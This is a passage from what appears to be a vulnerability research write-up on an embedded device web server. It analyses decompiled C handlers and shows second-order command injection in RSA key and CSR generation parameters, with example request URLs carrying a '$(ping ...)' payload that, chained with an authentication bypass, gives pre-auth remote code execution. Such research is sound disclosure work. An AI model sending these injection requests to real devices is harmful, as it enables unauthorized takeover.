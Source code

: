 The send information is received at [1], then the third parameter of our `send_agent()` call is used to see in which `if` statement we fall. As this was not directly controllable and pre-set to `w` [2] we jump into the `if` statement.

At [3] the command is generated, our `` is then used to create a filepath like `/mnt/log1/rsakey_file/USER_CONTROLLABLE[...]` for the output keyfile. This leads to a second-order command injection vulnerability.


An example request to trigger the `ping` command can look like this:

```
/goform/net_WebRSAKEYGen?rsakey_name=$(ping -c 1 127.0.0.1)&privateKey=0x1337
```

This in conjunction with the already discussed authentication bypass enables a pre-auth RCE.
=>
```
/json/net_WebRSAKEYGen?rsakey_name=$(ping -c 1 127.0.0.1)&privateKey=0x1337
```




Again - Second order Command Injection
---

`webs`



```c
void net_WebCSRGen(undefined8 param_1,undefined8 param_2,undefined8 param_3)

{
  <snip>
  
  local_20 = &_gp;
  local_40 = param_1;
  local_38 = param_2;
  local_30 = param_3;
  memset(auStack_147,0,0x100);
  memset(acStack_2f0,0,0x1a9);
  // Retrieve values of HTTP variables
  uVar1 = websGetVar(local_40,"contury",&DAT_120067690);
  snprintf(acStack_2f0,3,"%s",uVar1);
  uVar1 = websGetVar(local_40,"location",&DAT_120067690);
  snprintf(acStack_2cd,0x41,"%s",uVar1);
  uVar1 = websGetVar(local_40,"company",&DAT_120067690);
  snprintf(acStack_28c,0x41,"%s",uVar1);
  uVar1 = websGetVar(local_40,"departmnet",&DAT_120067690);
  snprintf(acStack_24b,0x41,"%s",uVar1);
  uVar1 = websGetVar(local_40,&global_cert_CA_str,&DAT_120067690);
  snprintf(acStack_20a,0x41,"%s",uVar1);
  uVar1 = websGetVar(local_40,&global_Cert_EA_str,&DAT_120067690);
  snprintf(acStack_1c9,0x41,"%s",uVar1);
  uVar1 = websGetVar(local_40,"RSAKey",&DAT_120067690); // Injectable
  snprintf(acStack_2ed,0x20,"%s",uVar1);
  uVar1 = websGetVar(local_40,"SUBNAME",&DAT_120067690);
  snprintf(acStack_188,0x41,"%s",uVar1);
  lVar2 = Ssys_CheckString(acStack_20a);
  if (lVar2 < 0) {
    FUN_1200233f4(local_40,0,0);
  }
  else {
    // Open local socket
    uVar1 = sock_path(auStack_147,0x100,"NET_CER_G.SOCKET");
    // Send data to local socket
    send_agent(uVar1,0x30,L'x',acStack_2f0,0x1a9,1,1);
    FUN_120022d68(local_40,0,"All new settings are now active !!!");
```